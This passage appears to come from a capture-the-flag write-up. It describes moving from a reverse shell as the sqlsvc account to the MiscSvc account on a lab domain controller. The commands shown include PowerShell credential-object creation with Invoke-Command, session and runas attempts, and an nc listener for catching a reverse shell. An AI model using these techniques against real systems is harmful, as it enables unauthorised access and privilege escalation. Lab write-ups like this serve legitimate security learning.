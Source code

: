 -   **I re-connect my reverse shell like I did with the** `sqlsvc` **account using** `xp_cmdshell`:
    -   {{< figure src="/ox-hugo/2024-10-08-070236_.png" >}}

-   **I try and invoke a** `ps-session` \* but it does not work\*:
    -   `enter-pssession -computername localhost -Credential miscsvc@scrm.local`
    -   `enter-pssession -computername dc1.scrm.local  -Credential miscsvc@scrm.local`
    -   {{< figure src="/ox-hugo/2024-10-08-070408_.png" >}}

-   **Let's try** `runas`:
    -   `runas /user:miscsvc "powershell"`
    -   {{< figure src="/ox-hugo/2024-10-08-071257_.png" >}}
    -   It looks like it will work as it prompts for the password but then doesn't let me enter it.

-   **Lets try** `PWSH` **(Powershell for linux)**:
    -   `enter-pssession -computername dc1.scrm.local  -Credential miscsvc@scrm.local`
    -   {{< figure src="/ox-hugo/2024-10-08-071440_.png" >}}
    -   Again it doesn't work but tells us this is due to `wsman` not being installed, so let's install it.

-   **Installing** `PSWSMan` **&amp;** `WSMan`:
    -   After trying various different spellings etc I did some googling:
    -   {{< figure src="/ox-hugo/2024-10-08-072148_.png" >}}
        1.  Install-Module -Name PSWSMan
        2.  Install-WSMan
        3.  Exit

    -   **Still no dice it will fail consistently**:
        -   {{< figure src="/ox-hugo/2024-10-08-073446_.png" >}}


#### Here is what did work Good Ol' &#x2026;.Secure&#x2026;.Invoke: {#here-is-what-did-work-good-ol-and-x2026-dot-secure-and-x2026-dot-invoke}

-   **We can pass a secure string &amp; then invoke a command as the user** `miscsvc` **using the credentialed**:
    -   From the `nc` reverse shell we established as `sqlsvc` we can run the following commands.
    -   `$SecPassword = ConvertTo-SecureString '<Pass>' -AsPlainText -Force`
    -   `$Cred = New-Object System.Management.Automation.PSCredential('scrm.local\MiscSvc', $SecPassword)`
    -   `Invoke-Command -Computer 127.0.0.1 -Credential $Cred -ScriptBlock { <CommmandToRun> }`
    -   {{< figure src="/ox-hugo/2024-10-08-073730_.png" >}}


#### Getting our reverse shell as `MiscSvc`: {#getting-our-reverse-shell-as-miscsvc}

-   **I generate another reverse shell from** <https://revshells.com>:

-   **Start another listener**:
    -   `nc -nlvp 9999`

-   **Paste in my command**:
    -   {{< figure src="/ox-hugo/2024-10-08-143924_.png" >}}

-   **Shell Caught**:
    -   {{< figure src="/ox-hugo/2024-10-08-143957_.png" >}}
